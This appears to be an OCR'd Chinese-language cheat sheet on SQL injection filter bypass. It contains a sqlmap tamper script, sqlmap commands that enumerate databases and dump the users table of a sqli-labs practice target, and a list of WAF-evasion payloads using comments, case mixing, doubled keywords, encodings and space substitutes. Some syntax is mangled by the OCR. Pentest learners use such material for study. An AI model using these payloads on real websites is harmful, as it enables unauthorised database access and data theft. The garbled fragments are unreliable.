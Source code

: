 /usr/share/sqlmap/tamper/

###### 格式

```
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def dependencies():
    pass

def tamper(payload, **kwargs):
    payload = payload.lower()
    payload = payload.replace('union', 'UnioN')
    return payload
sqlmap -u "http://192.168.2.31/sqli/Less-26a/?id=1" -p id --dbms=MySQL --tamper="2" --dbs --batch
sqlmap -u http://192.168.2.31/sqli-labs/Less-26a/?id=1 -p id --tamper=2 -D security -T users -C username --dump --batch
```

#### 绕过

```
1.注释符绕过
id=1' union select 1,2,3 or '1'='1
(少写闭合符进行闭合，不用注释符注释后面的')
常用的注释符有：
1）-- 注释内容
2）# 注释内容
3）/注释内容/
eg：union select 1,2#
union select 1,2 --+
构造闭合 ’ union select 1,2’
2.大小写绕过
常用于 waf的正则对大小写不敏感的情况。
eg：uniOn selEct 1,2
3.内联注释绕过
内联注释就是把一些特有的仅在MYSQL上的语句放在 /!../ 中，这样这些语句如果在其它数据库中是不会被执行，但在MYSQL中会执行。别和注释/*… */搞混了。
eg：union /!select/ 1,2
4.双写关键字绕过
一些简单的waf中，将关键字select等只使用replace()函数置换为空，这时候可以使用双写关键字绕过。
eg：union seselectlect 1,2
5.特殊编码绕过
1）十六进制绕过
eg：UNION SELECT 1,group_concat(column_name) from
information_schema.columns where table_name=0x61645F6C696E6B
2）ascii编码绕过
eg：Test =CHAR(101)+CHAR(97)+CHAR(115)+CHAR(116)
3）Unicode编码
常用的几个符号的一些Unicode编码：
单引号: %u0027、%u02b9、%u02bc、%u02c8、%u2032、%uff07、%c0%27、%c0%a7、%e0%80%a7
空格：%u0020、%uff00、%c0%20、%c0%a0、%e0%80%a0
左括号：%u0028、%uff08、%c0%28、%c0%a8、%e0%80%a8
右括号：%u0029、%uff09、%c0%29、%c0%a9、%e0%80%a9
6.空格过滤绕过
可代替空格的方式：
1）/**/
2）()
3）回车(url编码中的%0a)
4）`(tap键上面的按钮)
5）tap
6）%20
7）%0a
8）%a0
```